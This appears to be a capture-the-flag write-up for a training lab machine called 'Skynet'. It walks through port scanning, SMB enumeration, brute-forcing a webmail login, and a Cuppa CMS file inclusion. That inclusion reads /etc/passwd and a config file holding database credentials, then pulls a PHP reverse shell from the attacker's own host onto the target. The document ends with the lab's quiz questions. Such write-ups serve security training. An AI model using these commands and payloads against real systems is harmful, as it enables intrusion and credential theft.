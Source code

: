 # Skynet

### Deploy and compromise the vulnerable machine!
Initial scan: 

      nmap 10.10.210.244 -n -Pn -p- --min-rate=1000 
      Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-22 13:58 CEST
      Nmap scan report for 10.10.210.244
      Host is up (0.046s latency).
      Not shown: 65529 closed tcp ports (conn-refused)
      PORT    STATE SERVICE
      22/tcp  open  ssh
      80/tcp  open  http
      110/tcp open  pop3
      139/tcp open  netbios-ssn
      143/tcp open  imap
      445/tcp open  microsoft-ds
      
      Nmap done: 1 IP address (1 host up) scanned in 66.63 seconds

Let's now run a more targeted scan: 

    nmap 10.10.210.244 -p22,80,110,139,143,445 -sV -sC -oN scan
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-22 14:28 CEST
    Nmap scan report for 10.10.210.244
    Host is up (0.047s latency).
    
    PORT    STATE SERVICE     VERSION
    22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
    |   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
    |_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
    80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
    |_http-title: Skynet
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    110/tcp open  pop3        Dovecot pop3d
    |_pop3-capabilities: UIDL SASL CAPA AUTH-RESP-CODE PIPELINING RESP-CODES TOP
    139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    143/tcp open  imap        Dovecot imapd
    |_imap-capabilities: more listed OK have LITERAL+ ENABLE LOGINDISABLEDA0001 IDLE SASL-IR Pre-login capabilities IMAP4rev1 LOGIN-REFERRALS ID post-login
    445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
    Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Host script results:
    | smb-os-discovery: 
    |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
    |   Computer name: skynet
    |   NetBIOS computer name: SKYNET\x00
    |   Domain name: \x00
    |   FQDN: skynet
    |_  System time: 2024-09-22T07:29:18-05:00
    |_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2024-09-22T12:29:18
    |_  start_date: N/A
    |_clock-skew: mean: 1h40m02s, deviation: 2h53m12s, median: 2s
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 20.42 seconds


The web page shows a form to be compiled, but it doesn't seem to do anything really <br />
![image](https://github.com/user-attachments/assets/59d941f8-a546-4dfb-b28a-2cb96b503cf1)<br />
A directory enumeration reveals some interesting directories: <br />
![image](https://github.com/user-attachments/assets/3fdd81c1-533f-428c-a568-b4a0ba575516)<br />
But for each of them we get a 403 Forbidden, except the last one, squirrelmail, lol. <br />
![image](https://github.com/user-attachments/assets/2c648ddb-3d5b-4444-a632-79cd2cdba4bd)<br />
This version is vulnerable to RCE by an authenticated attacker ([source](https://legalhackers.com/advisories/SquirrelMail-Exploit-Remote-Code-Exec-CVE-2017-7692-Vuln.html)): <br />
![image](https://github.com/user-attachments/assets/140dbc53-b486-4fee-ba8c-a38ffe37e645)<br />
I think the next step is to find a way to authenticate, we need to find some credentials. Let's try enumerating SMB shares. I used `enum4linux` for this task, and found something interesting: <br />
![image](https://github.com/user-attachments/assets/c067f4c0-3a22-4ef9-94f3-e3202e2221af)<br />
The target system has two local users: nobody and milesdyson. The output also shows the enumerated shares: <br />
![image](https://github.com/user-attachments/assets/9b3b21ed-a5b7-46b9-9360-64f85dfa4dc6)<br />
Let's try to access the anonymous share anonymously: `smbclient //10.10.190.140/anonymous -U anonymous -p 445`. I found an interesting file: <br />
![image](https://github.com/user-attachments/assets/962ab4d0-2a3c-4509-88e8-64764f95380b)<br />
Also if we access the logs folder, we are provided with 3 txt files: <br />
![image](https://github.com/user-attachments/assets/9e0de88a-536d-490d-91b4-7515b9b1357b)<br />
`log2.txt` and `log3.txt` are empty, but `log1.txt` contains a wordlista. At this point I think it's clear what we have to do: let's try to access Miles share using the given wordlist. I'll use hydra: `hydra -l milesdyson -P log1.txt smb://10.10.190.140 ` <br />
![image](https://github.com/user-attachments/assets/b6845aa7-7196-40ca-9ed3-025b9d50d922)<br />
Nope, this is not the right path. Next thing I wanna try is to bruteforce the squirrel mail login form using "milesdyson" as username, and the given wordlist as passwords. So first of all intercept the request using burpsuite, and set the password field as the target for intruder: <br />
![image](https://github.com/user-attachments/assets/3de3023a-f9e9-40a0-a5d2-ea27ed442b3e)<br />
Now go on "Payloads" and load our given wordlist as payload: <br />
![image](https://github.com/user-attachments/assets/c4fb84d3-25c9-45f8-9a3a-02d928954e82)<br />
Now start the attack. The very first thing I notiece is that the payload `cyborg007haloterminator` has different response parameters with respect to other payloads: <br />
![image](https://github.com/user-attachments/assets/62b45807-3564-4391-b06b-c8c15f8c147d)<br />
so I try to log in as `milesdyson:cyborg007haloterminator`, and it worked! <br />
![image](https://github.com/user-attachments/assets/dd896870-0b25-45bb-b8b9-04a8b9443494)<br />
There it is, in the first email there's the new SMB password for Miles: <br />
![image](https://github.com/user-attachments/assets/cd1e6d37-4126-46a6-8fd6-83471c3c20eb)<br />
Let's log in: `smbclient //10.10.190.140/milesdyson -U milesdyson -p 445`. There's a bunch of scientific pdf files, Miles must be some sort of AI teacher or something. After navigating a bit inside the share, i found a file named "important.txt" inside a directory called "notes": <br />
![image](https://github.com/user-attachments/assets/0e80c450-98f8-4f50-8f58-58d6ec257aa8)<br />
Let's download it and see what's in it. <br />
![image](https://github.com/user-attachments/assets/0ca23a05-0ed0-4624-b8ea-d255e58b69dc)<br />
Damn, Miles really cares about his wife. Anyway, let's access `http://target_IP/45kra24zxs28v3yd`: <br />
![image](https://github.com/user-attachments/assets/7e7a4d45-f47c-446f-aa17-f660336d81ee)<br />
Oh yes he is infact an AI specialist. The page itself seems empty, the source code doesn't contain any comments. Let's try some directory enumeration with `obuster dir -u http://10.10.190.140/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`. Yup, there's something there <br />
![image](https://github.com/user-attachments/assets/8cf719c1-1d90-4971-a17e-7f9ed064ede8)<br />
At this point I was stuck for a while, I didn't find anything, default credentials, sql Injection, etc. After a while I discovered that this version is vulnerable to File inclusion, even anauthenticated, [here](https://www.exploit-db.com/exploits/25971). <br />
![image](https://github.com/user-attachments/assets/52294868-bdee-44a7-86b2-ba222c2ea82d)<br />
So for example if we try to access `http://10.10.190.140/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`, it actually works and shows us the /etc/passwd file. <br />
![image](https://github.com/user-attachments/assets/3dd36bb6-f73b-45fa-8feb-e089289ce502)<br />
Let's try downloading the configuration file: `http://10.10.190.140/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php`. We get the following base64 encoded string in return. Decode it: 

      <?php 
      	class Configuration{
      		public $host = "localhost";
      		public $db = "cuppa";
      		public $user = "root";
      		public $password = "password123";
      		public $table_prefix = "cu_";
      		public $administrator_template = "default";
      		public $list_limit = 25;
      		public $token = "OBqIPqlFWf3X";
      		public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
      		public $upload_default_path = "media/uploadsFiles";
      		public $maximum_file_size = "5242880";
      		public $secure_login = 0;
      		public $secure_login_value = "";
      		public $secure_login_redirect = "";
      	} 
And we got another set of credentials. These might be usefull later. Now let's try to include a malicious file from our own machine, let's call it shell.php (the code is provided in the file "shell.php" of this folder). Open a netcat listener `nc -lnvp 4444`, set up a web server with `python3 -m http.server 8000`, and upload it to the target machine with the following URL: `http://10.10.190.140/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.85.53:8000/shell.php`. There we go: <br />
![image](https://github.com/user-attachments/assets/f97120a9-1b82-4629-a34e-9a4818959216)<br />
![image](https://github.com/user-attachments/assets/a363b8d5-dd59-46cc-9082-160316c68c6b)<br />
And we have our user flag (the answers are all at the end of the writeup)

                                                            
- What is Miles password for his emails?
- What is the hidden directory?
- What is the vulnerability called when you can include a remote file for malicious purposes?
- What is the user flag?
- What is the root flag?
